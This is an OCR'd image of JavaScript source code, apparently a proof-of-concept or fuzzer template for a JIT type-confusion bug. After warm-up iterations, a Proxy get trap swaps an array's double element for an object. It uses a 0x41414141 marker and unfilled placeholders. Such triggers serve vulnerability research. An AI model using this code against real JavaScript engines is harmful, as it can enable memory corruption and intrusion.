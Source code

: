 
var o = [13.37]
var Constructor${counter} = function(o) { o[0] = 0x41414141; }
var hack = false
var Wrapper = new Proxy(Constructor${counter}, {
    get: function() {
        if (hack) {
            o[0] = {}
        }
    }
})
for (var i = 0; i < ITERS; ++i)
    new Wrapper(o)
hack = true
var bar = new Wrapper(o)
o[0]

